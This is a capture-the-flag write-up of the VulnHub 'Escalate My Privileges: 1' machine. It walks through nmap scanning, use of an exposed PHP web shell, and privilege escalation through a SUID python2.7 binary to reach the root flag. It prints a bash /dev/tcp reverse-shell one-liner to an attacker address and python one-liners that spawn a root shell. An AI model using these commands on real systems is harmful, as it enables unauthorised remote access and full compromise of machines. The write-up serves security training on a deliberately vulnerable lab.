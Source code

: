 <p align="center">
  <img src="./screenshots/vintage_logo.png" alt="vintage_logo"/>
</p>

---

<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>VulnHub - Escalate My Privileges: 1</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>27.09.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy / Beginner Level</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Privilege Escalation</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Linux</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [Summary](#-%EF%B8%8F--attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th style="min-width: 250px; white-space: nowrap;">Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1595 - Active Scanning</b></td>
      <td>Scanning the target system. Identifying open ports and services</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1190 - Exploit Public-Facing Application</b></td>
      <td>gaining access to the system through a public page with a web shell</td>
    </tr>
    <tr>
      <td align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1083 - File and Directory Discovery</b></td>
      <td>Detecting a potentially dangerous executable file with the SUID bit set as root</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548 - Abuse Elevation Control Mechanism</b></td>
      <td>exploiting an executable file with the SUID bit set</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>Root Flag</th>
    <td><code>flag{628435356e49f976bab2c04948d22fe4}</code></td>
  </tr>
</table>

</div>

---

<h2 align="center"> 📝 Report</h2>

> We load the image of the vulnerable machine into `virtualbox`:

<p align="center">
 <img src="./screenshots/virtualbox.png" alt="virtualbox" />
</p>

> IP address of the machine being attacked - `192.168.50.149`

---
## 🕵️  Reconnaissance

> We start scanning the machine for open ports and services using `nmap` in two stages:

```bash

sudo nmap -p- -vv -T5 --min-rate=1000 192.168.50.149 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -vv -A -n 192.168.50.149 -oN full_scan_results

```
```bash

Discovered open port 111/tcp on 192.168.50.149
Discovered open port 22/tcp on 192.168.50.149
Discovered open port 80/tcp on 192.168.50.149
Discovered open port 20048/tcp on 192.168.50.149
Discovered open port 2049/tcp on 192.168.50.149

```
```bash

22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 1 disallowed entry
|_/phpbash.php
|_http-title: Check your Privilege

```
> From the scan results I see some interesting open ports:

`22 (ssh)` - used for ssh connections (OpenSSH 7.4)
`80 (web/http)` - web server is running (Apache 2.4.6)

> Open the resource in the browser:

<p align="center">
 <img src="./screenshots/web.png" alt="web" />
</p>

> Just a picture. Nothing interesting.

> The scan revealed the presence of the page `/phpbash.php` in `robots.txt`. This can also be seen by manually navigating to `/robots.txt` in the browser:

<p align="center">
 <img src="./screenshots/robots_txt.png" alt="robots_txt" />
</p>

<p align="center">
 <img src="./screenshots/nmap_robots.png" alt="nmap_robots" />
</p>

---
## 🔓 Initial Access

> Navigate to `/phpbash.php` in the browser and you’ll see a `web-based command shell` running with the privileges of the `apache` user:

<p align="center">
 <img src="./screenshots/apache_shell.png" alt="apache_shell" />
</p>

> For convenience, we forward the reverse shell to our system:

```bash

bash -c 'bash -i >& /dev/tcp/192.168.50.127/4444 0>&1'

```
```bash

nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 192.168.50.149 38824
bash: no job control in this shell

bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.2$

```
> We are upgrading this shell to `pty` (`pseudo`):

```bash

bash-4.2$ python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ ^Z
stty raw -echo;fg
export TERM=xterm-256color
reset

```
---
## 🔑⬆️    Vertical Privilege Escalation

> Let's list files with the `SUID` bit set:

```bash

bash-4.2$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```
<p align="center">
 <img src="./screenshots/suid_python.png" alt="suid_python" />
</p>

> I see a `python2.7` executable with the `SUID` bit set running as `root`. This is a potential vector for `privilege escalation`.

> [!IMPORTANT]
`SUID (Set User ID)` — This is a special permissions bit that can be set on an executable file in Linux. When a file with SUID set is executed, it
runs with the permissions of the file's owner, not the user who executed it.

> Next, either go to `gtfobins` and get the command to get the root's `EUID` from there:

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
sh-4.2# id
uid=48(apache) gid=48(apache) euid=0(root) groups=48(apache)

```
> Or we manually write a one-liner in `python` to get `full root`, setting the `UID` of the current process to `0` (that is, `root`):

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")
[root@my_privilege html]# id
uid=0(root) gid=48(apache) groups=48(apache)

```
> In both cases, we obtain root privileges and get the `root flag` in the directory - `/root`:

```bash

[root@my_privilege root]# cd /root
[root@my_privilege root]# ls
proof.txt
[root@my_privilege root]# cat proof.txt
Best of Luck
628435356e49f976bab2c04948d22fe4
[root@my_privilege root]#

```
> root flag - `628435356e49f976bab2c04948d22fe4`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>628435356e49f976bab2c04948d22fe4</code>
    </td>
  </tr>
</table>

</div>

---
## 🧠 Conclusion

> [!NOTE]
During the attack on the `Escalate My Privileges: 1` system, a network scan revealed an insecure publicly accessible page at `/phpbash.php`, which provided a web-based command shell
running with the privileges of the `apache` user. This allowed for `Initial Access` to the system by establishing a reverse shell to the attacker's machine.
Subsequent local `Enumeration` identified a potentially dangerous executable `python2.7` with the `SUID` bit set and owned by `root`. This led to full system compromise by leveraging a
one-liner in python to `Escalate Privileges`.
